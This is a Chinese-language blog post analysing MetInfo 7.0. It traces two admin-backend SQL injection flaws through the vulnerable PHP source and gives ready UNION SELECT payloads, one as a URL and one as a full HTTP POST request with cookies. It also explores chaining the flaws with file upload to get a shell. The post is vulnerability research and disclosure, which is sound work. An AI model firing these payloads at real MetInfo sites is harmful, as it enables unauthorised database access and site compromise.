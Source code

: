 ```yaml
---
title: "Metinfo7 后台注入及一些tips"
date: 2019-09-28T22:11:39+08:00
lastmod: 2019-09-28T22:11:39+08:00
draft: false
tags: ['code']
categories: ['code']
comment: true
---
```


很可惜是个后台的注入

<!--more-->

跟汤姆表哥再搞创宇的年度任务🤒，昨天发了metinfo6.2.0的组合拳，今天看了看官网有最新版的7.0，就下下来看了看，发现两枚注入，而且昨天的组合拳虽然增加了后缀校验，绕不过去了，呜呜呜。

# sql injection 1

全局搜索`where`

app/system/parameter/include/class/parameter_op.class.php:165

```php
public function paratem($listid = '',$module = '',$class1 = '',$class2 = '',$class3 = ''){
    global $_M;

    $paralist = $this->get_para_list($module,$class1,$class2,$class3);
    foreach ($paralist as $key => $para) {
        $list = $this->parameter_database->get_parameters($module,$para['id']);
        $paralist[$key]['list'] = $list;
        if($para['type'] ==4 || $para['type'] ==2 || $para['type'] ==6){
            $values = array();
            foreach ($list as $val) {
                $query = "SELECT * FROM {$_M['table']['plist']} WHERE listid = {$listid} AND paraid={$para['id']} AND module={$module} AND info = '{$val['id']}' AND lang = '{$_M['lang']}'";
                $para_value = DB::get_one($query);
                if($para_value){
                    $values[] = $para_value['info'];
                }
            }
            $query = "SELECT * FROM {$_M['table']['plist']} WHERE listid = {$listid} AND paraid={$para['id']} AND module={$module} AND lang = '{$_M['lang']}'";
            $para_value = DB::get_one($query);
            $values = $para_value['info'];
        }else{
            $query = "SELECT * FROM {$_M['table']['plist']} WHERE listid = {$listid} AND paraid={$para['id']} AND module={$module} AND lang = '{$_M['lang']}'";
            $para_value = DB::get_one($query);
            $values = $para_value['info'];
        }


        if(is_array($values)){
            $paralist[$key]['value'] = implode('|', $values);
        }else{
            $paralist[$key]['value'] = $values;
        }
    }
    return $paralist;
    ##require PATH_WEB.'app/system/include/public/ui/admin/paratype.php';
}
```

发现`{$listid}`直接被拼接进sql语句，且`listid`是函数直接传进来的参数，搜索哪些函数调用了这个函数

![20190928221736](https://y4er.com/img/uploads/20190928221736.png)

app/system/product/admin/product_admin.class.php:171

```php
public function dopara() {
    global $_M;
    if($_M['form']['app_type']=='shop'){
        $class1 = $_M['form']['class1'];
        $class2 = $_M['form']['class2'];
        $class3 = $_M['form']['class3'];
        $paralist = $this->para_op->paratem($_M['form']['id'],$this->module,$class1,$class2,$class3);
        require PATH_WEB . 'app/system/include/public/ui/admin/paratype.php';
    }else{
        parent::dopara();
    }
}
```

`$_M['form']['id']`可控，那么sql语句就可控。

payload

```
http://php.local/admin/?n=product&c=product_admin&a=dopara&app_type=shop&id=2 union SELECT 1,2,3,user(),5,6,7 limit 5,1  -- +
```

# sql injection 2

app/system/language/admin/language_general.class.php:108

```php
public function doget_admin_pack($appno,$site,$editor)
{
    global $_M;
    $sql = $appno ? "AND app = {$appno}" : '';
    $language_data = array();
    if ($site == 'admin') {
        $query = "SELECT name,value FROM {$_M['table']['language']} WHERE lang='{$editor}' AND site ='1' {$sql}";
        $language_data = DB::get_all($query);
        $lang_pack_url = PATH_WEB . 'cache/language_admin_' . $editor . '.ini';
    } else if ($site == 'web') {
        $query = "SELECT name,value FROM {$_M['table']['language']} WHERE lang='{$editor}' AND site ='0' {$sql}";
        $language_data = DB::get_all($query);
        $lang_pack_url = PATH_WEB . 'cache/language_web_' . $editor . '.ini';
    }

    foreach ($language_data as $key => $val) {
        file_put_contents($lang_pack_url, $val['name'] . '=' . $val['value'] . PHP_EOL, FILE_APPEND);
    }
}
```

`$appno`直接拼接 当`site`等于web或者admin时造成sql注入

找下有没有调用这个函数传参的

app/system/language/admin/language_general.class.php:90

```php
public function doExportPack()
{
    global $_M;

    if (!isset($_M['form']['editor']) || !$_M['form']['editor']) {
        $this->error($_M['word']['js41']);
    }

    $editor = $_M['form']['editor'];
    $site = isset($_M['form']['site']) ? $_M['form']['site'] : '';
    $appno = $_M['form']['appno'] ? $_M['form']['appno'] : '';
    $filename = PATH_WEB . 'cache/language_' . $site . '_' . $editor . '.ini';

    delfile($filename);

    //获取后台语言包
    $this->doget_admin_pack($appno,$site,$editor);

    $filename = realpath($filename);
    header("");
    Header("Content-type:  application/octet-stream ");
    Header("Accept-Ranges:  bytes ");
    Header("Accept-Length: " . filesize($filename));
    header("Content-Disposition:  attachment;  filename=language_{$site}_" . $appno .'_'. $editor . ".ini");
    //写日志
    $log_name = $_M['form']['site'] ? 'langadmin' : 'langweb';
    logs::addAdminLog($log_name,'language_outputlang_v6','jsok','doExportPack');
    readfile($filename);
}
```

看下代码，首先要传递参数`editor`跳出第一个if语句块，然后`site`和`appno`直接传入`doget_admin_pack()`函数，参数都可控，妥妥的注入。

payload

```http
POST /admin/?n=language&c=language_general&a=doExportPack HTTP/1.1
Host: php.local
Content-Length: 58
Origin: http://php.local
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: XDEBUG_SESSION=PHPSTORM; PHPSESSID=40d2af28a4c309bbb824dc957af59b11; arrlanguage=metinfo; re_url=http%3A%2F%2Fphp.local%2Fadmin%2F; met_auth=65acz4xG7IkP%2BqmPuO%2FIvPsKt4luK6Te34p%2F2BHXEosgKHUwk8dKQRHs7y4Ea9mCH1egudtuz%2Bl02L3eIhMLs7%2FDMw; met_key=PLBqK9J; page_iframe_url=http%3A%2F%2Fphp.local%2Findex.php%3Flang%3Dcn%26pageset%3D1
Connection: close

appno= 1 union SELECT user(),database()&editor=cn&site=web
```

![20190928223704](https://y4er.com/img/uploads/20190928223704.png)

# 组合拳

在前文中提到了metinfo6.2.0配合注入getshell的姿势，但是在metinfo7.0中增加了后缀校验，无法getshell，很可惜。

app/system/include/class/web.class.php:757

```php
if (stristr($filename, '.php')) {
    jsoncallback(array('suc' => 0));
}
```

但是这个点仍然可以上传其他后缀的文件，通过这个点配合解析漏洞或者文件包含来getshell未免不可行。

想到了htaccess和.user.ini的同学别费力气了，写文件没办法换行，如果有师傅有新姿势，欢迎评论指点啊！

# 总结

metinfo7.0的注入实际上还有很多，不过很多都是delete型的注入，我在这里挑了两个回显的注入，欢迎师傅们补充交流。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**